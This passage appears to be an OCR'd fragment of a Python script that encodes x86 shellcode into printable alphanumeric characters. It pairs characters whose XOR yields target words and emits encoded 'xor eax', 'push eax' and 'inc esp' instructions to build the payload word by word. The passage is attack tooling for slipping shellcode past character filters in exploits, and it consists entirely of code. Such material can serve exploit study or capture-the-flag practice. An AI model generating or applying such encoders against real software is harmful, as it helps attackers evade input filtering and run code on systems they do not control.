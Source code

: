 ```python
        for c2 in CHARSET:
            if ord(c1) ^ ord(c2) == lower:
                lo_pair.append(c1)
                lo_pair.append(c2)
                found = True
                break
        if found:
            break
    
    
    if len(up_pair) != 2 or len(lo_pair) != 2:
        print("** Big error **")
        print("Target: ", hex(target))
        print("Up-pair:",up_pair)
        print("Lo-pair:",lo_pair)
        os.abort()

    if zero:
        resp = ZERO_EAX
    else:
        resp = FF_EAX # set eax = 0xffff

    resp += "f5"+up_pair[0]+lo_pair[0]+"XX" # xor eax, YY  [ XX to pad, else fed up
    resp += "f5"+up_pair[1]+lo_pair[1]+"XX" # xor eax, YY
    resp += "P" # push eax
    return resp

def not_hi_bit_word(b):
    target = b
    return template(target,True)

def highest_bit_word(b):
    target = b ^ 0xffff
    return template(target,False)

def getCodeForWord(bts):
    print("="*20)
    print("Current: ",hex(bts))
    payload = ""
    if bts >> 15 == 1 and (bts >> 7)& 1 == 1 :
        print("Triggered both-1")
        payload += highest_bit_word(bts)
    elif bts >> 15 == 0 and (bts >> 7)& 1 == 0:
        print("Triggered both-0")
        payload += not_hi_bit_word(bts)
    else:
        print("not-easy to work with ")
        # !! Maybe switch order of the two here !!

        print("Working on lower byte")
        # Lower byte
        lower_byte = bts & 0xff
        as_upper = lower_byte << 8
        if (as_upper >> 15) & 1 == 1:
            print("As upper: ",hex(as_upper))
            payload += highest_bit_word((as_upper>>8)|((0xff ^ 0x10)<<8))
        else:
            payload += not_hi_bit_word((as_upper>>8)|((0x10)<<8))
            print("As upper: ",hex(as_upper))

        # And inc esp (since we also wrote 0xff/0x00 XX)
        payload += "D"

```